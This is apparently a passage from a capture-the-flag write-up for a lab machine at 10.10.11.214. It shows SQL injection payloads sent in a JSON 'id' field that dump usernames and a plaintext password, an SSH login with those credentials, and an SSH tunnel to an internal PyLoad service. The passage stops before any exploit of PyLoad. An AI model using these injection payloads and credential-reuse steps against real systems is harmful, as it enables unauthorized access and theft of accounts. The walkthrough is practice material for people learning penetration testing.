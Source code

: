 The next thing I done is:

```
{
    "id": "0 UNION SELECT GROUP_CONCAT(username,\";\") FROM accounts"
}

{
    "message": "admin;sau"
}


{
    "id": "0 UNION SELECT GROUP_CONCAT(password,\";\") FROM accounts"
}

{
    "message": "admin;HereIsYourPassWord1431"
}
```

We have a password! The very next thing I done is try login to SSH using the newly obtained credentials:

```
$ ssh sau@10.10.11.214

sau@pc:~$ 
```

We got a shell!

### User Flag

The user flag was found in the `/home/sau` folder using the SSH credentials.


### A service on port 9666 and 8000?

After doing a bit of enumeration on the machine, I've discovered that there are two additional services running, which could by run by `root`:

- `0.0.0.0:9666` - A PyLoad instance. Not available from the outside, I assumed that the firewall was blocking the incoming requests.
- `localhost:8000` - Another PyLoad instance.

To access the pyload page, I used the following command on the attacker machine (SSH tunneling):

```
$ ssh sau@10.10.11.214 -N -L 9666:127.0.0.1:8000
```

- `-N` - Run in background.
- `-L <local_port>:<remote_ip>:<remote_port>` - Tunnel a service through SSH.

I was able to access the pyload instance using this method.

I could not find the version of the pyload instance via the webpage, but I found a way using the command `pip list` to list all the packages installed.
